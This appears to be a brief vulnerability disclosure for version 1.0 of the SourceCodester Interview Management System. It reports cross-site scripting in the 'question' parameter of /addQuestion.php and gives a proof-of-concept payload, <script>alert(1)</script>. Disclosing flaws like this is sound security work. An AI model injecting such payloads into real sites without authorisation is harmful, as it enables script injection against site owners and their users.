 # Interview Management System-XSS

### Date: 2022-08/05



### Exploit Author: anx0ing@gmail.com



### Vendor Homepage: 

[https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

https://www.sourcecodester.com/php/14585/interview-management-system-phpmysqli-full-source-code.html



### Version: 1.0



### /addQuestion.php

> `question`Parameters have Cross Site Scripting(XSS)

**payload**

```
<script>alert(1)</script>
```

![image-20220806012829053](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220806012829053.png)

